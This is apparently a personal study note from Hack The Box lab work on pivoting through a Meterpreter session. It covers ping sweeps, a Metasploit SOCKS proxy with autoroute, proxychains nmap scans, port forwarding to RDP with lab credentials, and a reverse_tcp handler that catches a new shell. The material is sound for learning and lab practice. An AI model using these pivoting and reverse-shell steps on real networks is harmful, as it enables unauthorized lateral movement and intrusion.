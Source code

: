 ```yaml
---
title: Meterpreter Tunneling
draft: false
tags:
---
```

Let's say we have meterpreter shell on Ubuntu PivotHost. 

We can create pivot through meterpreter without SSH port forwarding. 

We want to interact with Windows machine that is connected to Ubuntu PivotHost

## Ping Sweep
### Meterpreter

```shell-session
meterpreter > run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23

[*] Performing ping sweep for IP range 172.16.5.0/23
```

### For loop Linux

```shell-session
for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done

`time for i in $(seq 1 254); do (ping -c 1 192.168.122.${i} | grep "bytes from" &); done`
```
### For loop CMD

```cmd-session
for /L %i in (1 1 254) do ping 172.16.5.%i -n 1 -w 100 | find "Reply"
```

### PowerShell 

```powershell-session
1..254 | % {"172.16.5.$($_): $(Test-Connection -count 1 -comp 172.15.5.$($_) -quiet)"}
```

## Meterpreter Tunneling

Let's first configure MSF's SOCKS proxy:

```shell-session
msf6 > use auxiliary/server/socks_proxy

msf6 auxiliary(server/socks_proxy) > set SRVPORT 9050
SRVPORT => 9050
msf6 auxiliary(server/socks_proxy) > set SRVHOST 0.0.0.0
SRVHOST => 0.0.0.0
msf6 auxiliary(server/socks_proxy) > set version 4a
version => 4a
msf6 auxiliary(server/socks_proxy) > run
[*] Auxiliary module running as background job 0.

[*] Starting the SOCKS proxy server
msf6 auxiliary(server/socks_proxy) > options

Module options (auxiliary/server/socks_proxy):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The address to listen on
   SRVPORT  9050             yes       The port to listen on
   VERSION  4a               yes       The SOCKS version to use (Accepted: 4a,
                                        5)


Auxiliary action:

   Name   Description
   ----   -----------
   Proxy  Run a SOCKS proxy server
```

Above configuration starts a listener on port 9050 and routes all the traffic received via our meterpreter session.

We can confirm the proxy server running as such:

```shell-session
msf6 auxiliary(server/socks_proxy) > jobs

Jobs
====

  Id  Name                           Payload  Payload opts
  --  ----                           -------  ------------
  0   Auxiliary: server/socks_proxy
```

Now that we have initiated the SOCKS server, we will configure proxychains to route traffic generated through our pivot on the compromised Ubuntu PivotHost.

Let's edit `/etc/proxychains.conf` as such:

```shell-session
socks4 	127.0.0.1 9050
```

We will now set up to route all the traffic via our meterpreter session using `post/multi/manage/autoroute`:

```shell-session
msf6 > use post/multi/manage/autoroute

msf6 post(multi/manage/autoroute) > set SESSION 1
SESSION => 1
msf6 post(multi/manage/autoroute) > set SUBNET 172.16.5.0
SUBNET => 172.16.5.0
msf6 post(multi/manage/autoroute) > run

[!] SESSION may not be compatible with this module:
[!]  * incompatible session platform: linux
[*] Running module against 10.129.202.64
[*] Searching for subnets to autoroute.
[+] Route added to subnet 10.129.0.0/255.255.0.0 from host's routing table.
[+] Route added to subnet 172.16.5.0/255.255.254.0 from host's routing table.
[*] Post module execution completed
```


We can confirm autoroute by checking the route being added to 172.16.5.0/23:

```shell-session
meterpreter > run autoroute -p

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]

Active Routing Table
====================

   Subnet             Netmask            Gateway
   ------             -------            -------
   10.129.0.0         255.255.0.0        Session 1
   172.16.4.0         255.255.254.0      Session 1
   172.16.5.0         255.255.254.0      Session 1
```

Now we can use proxychains to route our nmap traffic via our Meterpreter session:

```shell-session
jadu101@htb[/htb]$ proxychains nmap 172.16.5.19 -p3389 -sT -v -Pn

ProxyChains-3.1 (http://proxychains.sf.net)
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-03 13:40 EST
Initiating Parallel DNS resolution of 1 host. at 13:40
Completed Parallel DNS resolution of 1 host. at 13:40, 0.12s elapsed
Initiating Connect Scan at 13:40
Scanning 172.16.5.19 [1 port]
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.5.19 :3389-<><>-OK
Discovered open port 3389/tcp on 172.16.5.19
Completed Connect Scan at 13:40, 0.12s elapsed (1 total ports)
Nmap scan report for 172.16.5.19 
Host is up (0.12s latency).

PORT     STATE SERVICE
3389/tcp open  ms-wbt-server

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.45 seconds
```

## Meterpreter Port Forwarding

We can use Metasploit's `portfwd` for port forwarding. 

We will set up a listener on our attacker host and request meterpreter to forward all the packets received on this port via our meterpreter sessions to a remove host. 

```shell-session
meterpreter > portfwd add -l 3300 -p 3389 -r 172.16.5.19

[*] Local TCP relay created: :3300 <-> 172.16.5.19:3389
```

Above starts a listener on attacker host's port 3300 and forward all the packets to the remote Windows server on port 3389. 

So we can now execute xfreerdp on attacker host's port 3300. 

```shell-session
jadu101@htb[/htb]$ xfreerdp /v:localhost:3300 /u:victor /p:pass@123
```


## Meterpreter Reverse Port Forwarding

We will start a listener on attacker host (port 8081). 

Ubuntu PivotHost server will forward all requests received on port 1234 to attacker host's port 8081.

```shell-session
meterpreter > portfwd add -R -l 8081 -p 1234 -L 10.10.14.18

[*] Local TCP relay created: 10.10.14.18:8081 <-> :1234
```

Or to start a new session:

```shell-session
meterpreter > bg

[*] Backgrounding session 1...
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LPORT 8081 
LPORT => 8081
msf6 exploit(multi/handler) > set LHOST 0.0.0.0 
LHOST => 0.0.0.0
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 0.0.0.0:8081 
```
